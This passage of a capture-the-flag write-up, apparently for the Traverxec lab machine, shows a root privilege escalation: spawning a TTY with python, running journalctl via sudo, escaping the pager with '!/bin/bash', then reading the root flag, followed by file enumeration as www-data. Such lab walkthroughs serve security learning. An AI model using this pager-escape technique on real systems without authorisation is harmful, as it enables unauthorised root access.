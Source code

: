 Enter another **tty** shell first

```bash
david@traverxec:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- TTY showcase
![](/assets/obsidian/f5ba71ce764922e47b68403c49736c28.png)


Execute the `journalctl` command again

```bash
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![](/assets/obsidian/d31aca6cb34ec85b16f9c15c70319138.png)

Enter `!/bin/bash`

```bash
...
Aug 02 09:46:34 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cat /root/root.txt
9fdda1ea9c21f8d94c18e437d747511b
```

# Additional
---

## Further Enumeration as was www-data

```bash
www-data@traverxec:/usr/bin$ find / -user david 2>/dev/null|grep -vE '^/proc|^/run|^/sys|^/tmp'
<vid 2>/dev/null|grep -vE '^/proc|^/run|^/sys|^/tmp'
/home/david

www-data@traverxec:/var/nostromo/conf$ stat nhttpd.conf
  File: nhttpd.conf
  Size: 498             Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d      Inode: 10987       Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    2/     bin)
Access: 2023-08-02 01:58:50.697320706 -0400
Modify: 2019-10-25 15:20:39.986453020 -0400
Change: 2019-10-27 16:12:13.847028665 -0400

www-data@traverxec:/var/nostromo/conf$ find / -type f -newermt "2019-10-25 15:00" ! -newermt "2019-10-27 17:00" -ls 2>/dev/null
    16146      4 -rw-r--r--   1 root     root         2007 Oct 25  2019 /etc/rsyslog.conf
```